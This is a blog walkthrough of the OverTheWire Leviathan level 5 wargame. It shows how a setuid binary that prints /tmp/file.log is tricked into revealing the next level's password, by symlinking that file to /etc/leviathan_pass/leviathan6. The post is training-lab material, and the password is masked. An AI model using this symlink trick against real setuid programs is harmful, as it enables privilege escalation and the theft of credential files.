 ```yaml
---
title: OverTheWire Leviathan Level 4 -> 5
author: Michael McDonagh
pubDatetime: 2025-03-02T12:45:00Z
slug: overthewire-leviathan-5
featured: false
draft: false
tags:
  - overthewire
  - leviathan
  - linux
ogImage: ""
description: Solution for OverTheWire Leviathan level 5 challenge.
---
```


## Level Goal  

There is no information for this level, intentionally.

---

## Walkthrough  

Solution for the Overthewire.org [Leviathan level 5](https://overthewire.org/wargames/leviathan/leviathan5.html)

Login to the server using the password obtained from the previous level [Leviathan level 4](/posts/overthewire-leviathan-4).  

username: `leviathan5`  

```bash
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.

```bash
leviathan5@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

There is an executable file `leviathan5` with the suid bit set.
When we run `leviathan5` we get an error stating it cannot find `file.log`.

```bash
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
```

What happens if the file exists ? Let's create the file.

```bash
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5

```

Nothing seems to have happened and the file is now deleted.

Let's try again but this time put some text in the file.

```bash
leviathan5@leviathan:~$ echo "Hello" >  /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5
Hello
```

The contents of the file was printed to screen and the file then deleted.

Since `leviathan5` file runs with leviathan6 permissions we can create a symbolic link between the password file and file.log and print the password.

```bash
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5 
Uga*******
```
